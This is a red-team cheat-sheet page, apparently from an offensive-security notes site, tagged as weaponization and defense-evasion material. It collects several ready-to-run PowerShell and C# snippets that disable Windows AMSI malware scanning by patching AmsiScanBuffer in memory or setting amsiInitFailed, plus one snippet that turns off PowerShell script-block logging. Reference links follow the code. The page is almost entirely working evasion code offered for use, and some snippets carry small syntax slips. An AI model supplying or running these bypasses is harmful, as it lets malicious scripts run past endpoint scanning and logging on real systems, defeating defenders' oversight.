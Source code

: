 # AMSI Bypass

Search Tag(s): #helpers #weaponization #implant-development #defense-evasion

## Matt Graebers

`$ cat matt-graebers-amsi-bypass.ps1`

---

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Rasta Mouse

`$ cat rasta-mouse-amsi-bypass.ps1`

---

```powershell
$Win32 = @"  
using System;  
using System.Runtime.InteropServices;  
public class Win32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName)  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out lpflOldProtect)  
}  
"@  
Add-Type $Win32  
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")  
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")  
$oldprotect = 0  
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$oldprotect)  
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x80, 0xc3)  
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

## Am0nSec

`$ cat am0nsec-amsi-bypass.ps1`

---

```powershell
$Kernel32 = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class Kernel32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string lpLibFileName);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type $Kernel32  
  
Class Hunter {  
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {  
        while ($true) {  
            [int]$count = 0  
  
            while ($true) {  
                [IntPtr]$address = [IntPtr]::Add($address, 1)  
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {  
                    $count++  
                    If ($count -eq $egg.Length) {  
                        return [IntPtr]::Subtract($address, $egg.Length - 1)  
                    }  
                } Else { break }  
            }  
        }  
  
        return $address  
    }  
}  
  
[IntPtr]$hModule = [Kernel32]::LoadLibrary("amsi.dll")  
Write-Host "[+] AMSI DLL Handle: $hModule"  
  
[IntPtr]$dllCanUnloadNowAddress = [Kernel32]::GetProcAddress($hModule, "DllCanUnloadNow")  
Write-Host "[+] DllCanUnloadNow address: $dllCanUnloadNowAddress"  
  
If ([IntPtr]::Size -eq 8) {  
    Write-Host "[+] 64-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp  
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx  
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp  
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi  
        0x57,                   # push    rdi  
        0x41, 0x56,             # push    r14  
        0x41, 0x57,             # push    r15  
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h  
    )  
} Else {  
	Write-Host "[+] 32-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x8B, 0xFF,             # mov     edi,edi  
        0x55,                   # push    ebp  
        0x8B, 0xEC,             # mov     ebp,esp  
        0x83, 0xEC, 0x18,       # sub     esp,18h  
        0x53,                   # push    ebx  
        0x56                    # push    esi  
    )  
}  
[IntPtr]$targetedAddress = [Hunter]::FindAddress($dllCanUnloadNowAddress, $egg)  
Write-Host "[+] Targeted address: $targetedAddress"  
  
$oldProtectionBuffer = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null  
  
$patch = [byte[]] (  
    0x31, 0xC0,    # xor rax, rax  
    0xC3           # ret    
)  
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)  
  
$a = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$a) | Out-Null
```

## Adam Chester

`$ cat adam-chester-amsi-bypass.ps1`

---

```powershell
$Winpatch = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class patch  
{  
    // https://twitter.com/_xpn_/status/1170852932650262530  
    static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };  
    static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };  
  
    public static void it()  
    {  
        if (is64Bit())  
            PatchAmsi(x64);  
        else  
            PatchAmsi(x86);  
    }  
  
    private static void PatchAmsi(byte[] patch)  
    {  
        try  
        {  
            var lib = Win32.LoadLibrary("amsi.dll");  
            var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");  
  
            uint oldProtect;  
            Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);  
  
            Marshal.Copy(patch, 0, addr, patch.Length);  
            Console.WriteLine("Patch Sucessfull");  
        }  
        catch (Exception e)  
        {  
            Console.WriteLine(" [x] {0}", e.Message);  
            Console.WriteLine(" [x] {0}", e.InnerException);  
        }  
    }  
  
    private static bool is64Bit()  
        {  
            bool is64Bit = true;  
  
            if (IntPtr.Size == 4)  
                is64Bit = false;  
  
            return is64Bit;  
        }  
}  
  
class Win32  
{  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type -TypeDefinition $Winpatch -Language CSharp  
[patch]::it()
```

## Cobbr

```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
If ($GroupPolicyField) {
    $GroupPolicyCache = $GroupPolicyField.GetValue($null);
    If ($GroupPolicyCache['ScriptBlockLogging']) {
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
    }
    $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptBlockLogging', 0);
    $val.Add('EnableScriptBlockInvocationLogging', 0);
    $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
};
```

---
## References

- [AMSI Bypass Methods](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

- [Amsi Bypass Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

- [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

- [Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)

- [Cobbr: ScriptBlockLogBypass](https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407)

- [How to Bypass AMSI and Execute ANY Malicious Powershell Code](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)

- [PayloadsAllTheThings: Windows - AMSI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)